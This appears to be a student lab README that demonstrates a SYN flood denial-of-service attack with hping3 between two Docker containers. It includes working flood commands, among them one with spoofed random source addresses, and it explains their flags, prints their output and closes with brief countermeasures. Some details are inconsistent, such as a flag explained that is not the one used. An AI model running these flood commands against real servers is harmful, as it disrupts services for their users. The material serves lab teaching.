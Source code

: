 # DoS
In this exercice, we are going to test one kind of DoS attack: SynFlooding with `hping3` tool.

## Content
- [DoS](#dos)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [hping3](#hping3)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- two services
  - pirate:
    - purpose: execute DoS attack
    - tools: `hping3`
    - ip: 10.10.10.4
  - server:
    - purpose: a prototype of server
    - ip: 10.10.10.2
- environment configuration in `.env` contains:
  - ip addresses configuration
- `docker-compose.yml` configuration
  
## Work Process
### hping3
> hping3 is a network tool able to send custom TCP/IP packets and to display target replies like ping program does with ICMP replies. hping3 handle fragmentation, arbitrary packets body and size and can be used in order to transfer files encapsulated under supported protocols. [linux.die.net]

example:
`hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP`
  - --flood: sent packets as fast as possible. Don't show replies.
  - --rand-dest: random destionation address mode. see the man.
  - -V <-- Verbose
  - -c --count: packet count
  - -d --data: data size
  - -S --syn: set SYN flag
  - -w --win: winsize (default 64)
  - -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
  - -s --baseport: base source port (default random)

### How to run
- execute docker-compose: `docker-compose up`
- preview the status of the server: `docker exec -it server htop`
- access to the pirate bash: `docker exec -it pirate bash`
  - execute SynFlooding attack from the pirate on the server: `hping3 --flood -p 80 -S pirate`
  - execute SynFlooding attack while changing the value of packet count: `hping3 -c <value> --flood -p 80 -S pirate`

### Result
- before executing the attack:
![before_attack](demonstration/before_attack.png)

- after executing the attack:
![after_attack](demonstration/after_attack.png)

```
[MohamedAmin@samet TP1]$ sudo docker exec -it pirate bash
[root@3186b137c19b /]# hping3 --flood -p 80 -S pirate
HPING pirate (eth0 10.10.10.4): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
```

## Interpretation
- The pirate sends sequence of requests to the server in high frequency.
- The server has to interprete each of these requests and thats makes it busy
- CPU status of the server becomes very high after executing the attack
- If the server has lower specifications, it will be fully charged and it may not have the opporunity to manage requests from real users

## Conclusion
- Every accessible server may be target of Flooding attack
- As counter measurment to Flooding attack, detect earlier the DoS attack and prevent massive SynFlooding by blocking attackers addresses.
- Blocking and detecting DoS attack may be really easy. But in case of attack from multiple devices or zombie clients (DDos), it may be really hard to distinguish the real clients from the fake ones.


[linux.die.net]: https://linux.die.net/man/8/hping3
